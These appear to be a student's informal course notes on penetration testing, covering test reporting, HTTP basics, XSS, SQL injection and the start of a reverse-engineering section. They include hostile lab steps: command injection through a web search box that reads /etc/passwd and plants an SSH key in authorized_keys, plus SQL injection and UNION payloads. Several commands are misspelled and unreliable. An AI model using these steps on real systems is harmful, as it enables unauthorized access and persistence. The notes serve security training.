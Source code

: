 ## Misc 

https://sec.cybbh.io/public/security/latest/index.html
#### Test Day: August 15th

xfreerdp /u:student /v:10.50.37.222 /dynamic-resolution +glyph-cache +clipboard

## Day 1 - Recon/Research/Pen Testing
### Pen Testing

#### Pen Testing Test Reporting

    OPNotes
      Actions being taken that works, maps, the things that have worked. Keeping track of the steps

    Penetration Test Reporting
      Executive Summary
        The tops, not evertything but a summary
      Technical Summary
        In the weeds, the more technical stuff
## Day 2 - Web Explotation
### HTTP Methods
    GET, POST, HEAD, PUT

### HTTP Response Codes
    10X Info, 2XX Success, 30X Redir, 4XX Client Err, 5XX Serv Err

### JavaScript (JS)
    HTML Frame of the House
    CSS is the paint and decoration
    JavaScript is used to change things afterwards

### HTTP Enumeration
```
nmap -v -sT -T5 --script http-enum.nse 10.50.31.75 -> web enum
nikto -h 10.50.31.75 -> info about the sub dirs 

sudo apt install nikto -y
```

### Cross-Site Scripting
    Attacker puts bad stuff on trusted website, it allows it to execute bad code
#### Reflected XSS
    Not stored, run JS on website, changes url, bad code in url
#### Stored XSS
    Actually stored on server

### Demo
    lin-ops> ssh-keyget -t rsa "enter", "enter" is in /home/student/.ssh/id_rsa"
    passhprhase -> blank
    have genterated key
    cd ~/.ssh 
    ca id_rsa.pub(lic key) "generated public key"
    in search box
        : whoami -> www-data
        : cat /etc/passswd -> home dir is /var/www
        : ls -la /var/www -> see if .ssh file is created
        : mksir /var/www/.ssh
        : echo "ssh-rsa 'key' student@lin-ops" > /var/www/.ssh/authorized_keys

## Day 3 - Web Explotation  Part 2 - SQL Injection 
### MySql
    Unsanitized vs Sanitized Fields
        Unsanitized test, enter '
            will return info, no errors or jeneric error
        Santized: items are removed, escaped into single string

    Server-Side Query Processing
        Before Input
            name='$name'...
            nmae='JohnDoe'

### Injecting Statemnet
    User Enters TOM' OR 1='1 in the name and pass fields
    Truth Statemnet: tom 'OR 1=' 1

    Back End
        name='tom' OR 1='1' AND PASS='tom' OR 1='1'

##
    mysql
    use session;
    select * from user;
    select id from user where name='admin';  = 0
    select id from user where name='tom';  = none
    select * from user where name='tom' OR 1=1;  = eveyrthing
    stacking statements, chain statements togetyher with ;

    To find the version
        Audi' UNION SELECT @@version,database(); #

## Nesting Statements
    # ignore the rest or -- tells to ignore stuff, comment out some of the sql error

## Day 4 - Reverse Engineering
     
### X86_64 Assembly - Common Terms
    Heap, Stack, Gen. Register, Ctrl. Register, Flags Register
    
### Reverse Engineering Workflow (Software)
    
